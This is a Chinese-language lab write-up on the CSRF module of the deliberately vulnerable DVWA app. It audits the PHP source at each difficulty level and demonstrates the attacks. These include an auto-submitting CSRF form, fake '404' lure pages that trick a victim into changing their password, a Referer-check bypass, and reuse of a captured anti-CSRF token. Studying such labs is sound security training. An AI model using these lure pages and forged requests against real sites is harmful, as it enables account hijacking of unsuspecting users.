




# 一、low
## 1.1 源码审计
```PHP
<?php

if( isset( $_GET[ 'Change' ] ) ) {
	// Get input
	$pass_new  = $_GET[ 'password_new' ];
	$pass_conf = $_GET[ 'password_conf' ];

	// Do the passwords match?
	if( $pass_new == $pass_conf ) {
		// They do!
		$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
		$pass_new = md5( $pass_new );

		// Update the database
		$current_user = dvwaCurrentUser();
		$insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . $current_user . "';";
		$result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

		// Feedback for the user
		$html .= "<pre>Password Changed.</pre>";
	}
	else {
		// Issue with passwords matching
		$html .= "<pre>Passwords did not match.</pre>";
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```
`isset($variable)`用于检查变量是否不为NULL，接着用GET请求获得Change参数的值。

**They do!**部分：
总体：先转义密码，防止SQL注入，再MD5哈希，加密存储密码。
具体：检查数据库连接是否存在且是对象，如果是，用转义函数防止SQL注入，如果不是，触发错误警告。完成后对密码进行MD5哈希加密。
其中的转义函数`mysqli_real_escape_string(连接对象, 要转义的字符串)`：
  - 原始输入：`admin' OR '1' = '1`
  - 转义后：`admin\' OR \'1\'=\'1`
  - 转义的特殊字符：`'` → `\'`，`"` → `\"`，`\` → `\\`，`NULL` → `\0`

**Update the database**部分：
总体：找到当前用户，更新当前用户密码，如果更新失败，报错并停止
具体：`$insert`，在`users`表里，把`password`字段更新为`&pass_new`，只更新当前用户名对应的那行。
`$result`，执行SQL更新语句，第一个参数是数据库连接对象，第二个参数是SQL语句插入。
最后的`is_null`是关闭MySQL连接。

## 1.2 攻击
修改密码为123，URL变为`http://172.31.171.162:81/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#`

### 1.2.1 构建链接
浏览器保持开启，输入新url，修改密码回为password
`http://172.31.171.162:81/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#`

### 1.2.2 Burp suite构造攻击页面

进入burp suite professional，进入宿主机界面，修改密码，截取HTTP GET请求,进入HTTP历史记录，生成CSRF PoC（Proof of Concept）

获得如下的PoC，写入一个名为`csrf_attack.html`的文档里：

```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://172.31.171.162:81/vulnerabilities/csrf/">
      <input type="hidden" name="password&#95;new" value="123" />
      <input type="hidden" name="password&#95;conf" value="123" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

### 1.2.3 自己构建攻击网页
```HTML
<html>
<head>
</head>
<body>
    
   <h1>404<h1>
   <h2>file not found.<h2>
</body>
</html>
```

但点击后失败，原因在于现代浏览器的防止CSRF逻辑：当从本地文件去访问一个网络地址，被视为一次跨站请求，由于DVWA的cookie默认没有`SameSite`属性，浏览器自动打上`SameSite=Lax`的标签，在`Lax`模式下，像``标签这种自动发起的GET请求，禁止携带第三方Cookie。

### 1.2.4 自己构建攻击网页（成功）
解决：改用`Lax`允许的`<a>`标签，引导用户主动点击：

```HTML
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>404 Not Found</title>
</head>
<body>
    <h1>404 Not Found</h1>
    <p>由于网络波动，请求未能成功。</p>

    <p>您可以尝试 <a href="http://172.31.171.162:81/vulnerabilities/csrf/index.php?password_new=hack&password_conf=hack&Change=Change#">返回首页</a></p>
</body>
</html>
```

# 二、Medium
## 2.1 源码审计
```PHP
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update the database
            $current_user = dvwaCurrentUser();
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . $current_user . "';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

新增检查HTTP Referer头部：`if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false )`
  - ` $_SERVER['HTTP_REFERER']`是浏览器发送请求时自动带上的一个头部，记录用户从哪个页面点击链接跳过来的
  - `$_SERVER['SERVER_NAME']`是服务器当前的域名或IP
  - `stripos(A, B)`其中`A`是规定要搜索的字符串，`B`是规定要查找的字符，如果没有找到字符串则返回`FALSE`

## 2.2 攻击
绕过HTTP Referer头部检查思路：
1. Burp suite新增加medium难度的Referer
2. 文件名修改为`172.31.171.162:81.html`

### 2.2.1 思路一
完美成功

### 2.2.2 思路二
失败，原因是HTTP请求中没有HTTP Referer，可能的原因是**协议降级**，即本地打开的html文件，当浏览器从本地协议(`file://`)跳转到网络协议(`http://`)时，出于隐私安全考虑，默认不发送Referer。


解决思路：利用Python搭建临时服务器。
文件所在文件夹里`python -m http.server 8081`，接着浏览器访问`http://localhost:8081/172.31.171.162:81.html`，结果如图所示，referer里面不带文件名，请求仍被拦截。



解决思路：`<head>`新增代码，将完整URL发给后端，成功绕过。

```HTML
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <meta name="referrer" content="no-referrer-when-downgrade">
    <title>404 Not Found</title>
</head>
<body>
    <h1>404</h1>
    <h2>抱歉，页面无法加载</h2>
    <p>由于网络波动，请求未能成功。</p>
    
    <p>您可以尝试：<a href="http://172.31.171.162:81/vulnerabilities/csrf/index.php?password_new=hack&password_conf=hack&Change=Change">重新加载首页</a></p>
</body>
</html>
```

# 三、High
## 3.1 源码审计
```php
<?php

$change = false;
$request_type = "html";
$return_message = "Request Failed";

if ($_SERVER['REQUEST_METHOD'] == "POST" && array_key_exists ("CONTENT_TYPE", $_SERVER) && $_SERVER['CONTENT_TYPE'] == "application/json") {
    $data = json_decode(file_get_contents('php://input'), true);
    $request_type = "json";
    if (array_key_exists("HTTP_USER_TOKEN", $_SERVER) &&
        array_key_exists("password_new", $data) &&
        array_key_exists("password_conf", $data) &&
        array_key_exists("Change", $data)) {
        $token = $_SERVER['HTTP_USER_TOKEN'];
        $pass_new = $data["password_new"];
        $pass_conf = $data["password_conf"];
        $change = true;
    }
} else {
    if (array_key_exists("user_token", $_REQUEST) &&
        array_key_exists("password_new", $_REQUEST) &&
        array_key_exists("password_conf", $_REQUEST) &&
        array_key_exists("Change", $_REQUEST)) {
        $token = $_REQUEST["user_token"];
        $pass_new = $_REQUEST["password_new"];
        $pass_conf = $_REQUEST["password_conf"];
        $change = true;
    }
}

if ($change) {
    // Check Anti-CSRF token
    checkToken( $token, $_SESSION[ 'session_token' ], 'index.php' );

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = mysqli_real_escape_string ($GLOBALS["___mysqli_ston"], $pass_new);
        $pass_new = md5( $pass_new );

        // Update the database
        $current_user = dvwaCurrentUser();
        $insert = "UPDATE `users` SET password = '" . $pass_new . "' WHERE user = '" . $current_user . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert );

        // Feedback for the user
        $return_message = "Password Changed.";
    }
    else {
        // Issue with passwords matching
        $return_message = "Passwords did not match.";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);

    if ($request_type == "json") {
        generateSessionToken();
        header ("Content-Type: application/json");
        print json_encode (array("Message" =>$return_message));
        exit;
    } else {
        echo "<pre>" . $return_message . "</pre>";
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```
  - 引入Anti-CSRF Token的校验与生成：`checkToken( $token, $_SESSION[ 'session_token' ], 'index.php' );`和`generateSessionToken();`，要求请求中携带与当前session绑定的随机token，且每次请求重新生成新的token。
  - 增加对JSON/AJAX请求的支持与校验，不仅要求数据是JSON，还必须在HTTP请求头中带自定义的`User-Token`，利用浏览器的同源策略(SOP)和CORS机制阻断跨域伪造：
  ```PHP
if ($_SERVER['REQUEST_METHOD'] == "POST" && array_key_exists ("CONTENT_TYPE", $_SERVER) && $_SERVER['CONTENT_TYPE'] == "application/json") {
    $data = json_decode(file_get_contents('php://input'), true);
  ```
  - 使用`$_REQUEST`替代`$_GET`，`array_key_exists("user_token", $_REQUEST)`，对于非JSON的传统请求，意味着同时允许`GET`和`POST`请求，只要Token正确。
  - `if ($request_type == "json")`，能智能返回JSON格式的提示或传统的HTML`<pre>`标签。
  - 相比medium难度，删除了对`HTTP_REFERER`的校验，medium的防御思路是检查Referer，high的防御思路是强制Token检验

## 3.2 攻击
burp suite截取请求，发现`user_token`，可以选择复制这里的`user_token`，伪造url即可


http://172.31.171.162:81/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change&user_token=5ee39b3679d27c0e6dc645fde71d91eb

# 四、Impossible
## 4.1 源码审计
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_curr = $_GET[ 'password_current' ];
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Sanitise current password input
    $pass_curr = stripslashes( $pass_curr );
    $pass_curr = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_curr ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $pass_curr = md5( $pass_curr );

    // Check that the current password is correct
    $data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
    $current_user = dvwaCurrentUser();
    $data->bindParam( ':user', $current_user, PDO::PARAM_STR );
    $data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
    $data->execute();

    // Do both new passwords match and does the current password match the user?
    if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) {
        // It does!
        $pass_new = stripslashes( $pass_new );
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update database with new password
        $data = $db->prepare( 'UPDATE users SET password = (:password) WHERE user = (:user);' );
        $data->bindParam( ':password', $pass_new, PDO::PARAM_STR );
        $current_user = dvwaCurrentUser();
        $data->bindParam( ':user', $current_user, PDO::PARAM_STR );
        $data->execute();

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match or current password incorrect.</pre>";
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```
新增内容：
  - 新增`$pass_curr = $_GET[ 'password_current' ];`，并用`stripslashes()`函数删除反斜杠，以及进行MD5加密。
  - 在更新密码前，先执行一次`SELECT`查询：`SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;`
  - 将原本仅仅判断两次新密码是否一致的`if( $pass_new == $pass_conf )`，升级为`if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) )`，即使攻击者通过xss拿到用户anti-csrf token，由于不知道旧密码，csrf攻击会失效

删除内容：
  - 删除对json请求的解析，统一接受标准的`$_GET`/`$_REQUEST`传参
  - 删除了判断`$request_type == "json"`并返回`json_encode`数据，统一用简单的HTML`<pre>`标签输出成功或失败信息

底层数据库交互修改：从原生拼接修改为PDO预处理
  - High：用传统的`mysqli_query`和字符串拼接执行更新
```PHP
$insert = "UPDATE `users` SET password = '" . $pass_new . "' WHERE user = '" . $current_user . "';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert );
```

  - Impossible：修改为了PDO的`prepare`和`bindParam`机制，预防SQL注入
```PHP
 $data = $db->prepare( 'UPDATE users SET password = (:password) WHERE user = (:user);' );
$data->bindParam( ':password', $pass_new, PDO::PARAM_STR );
// ... 
$data->execute();
```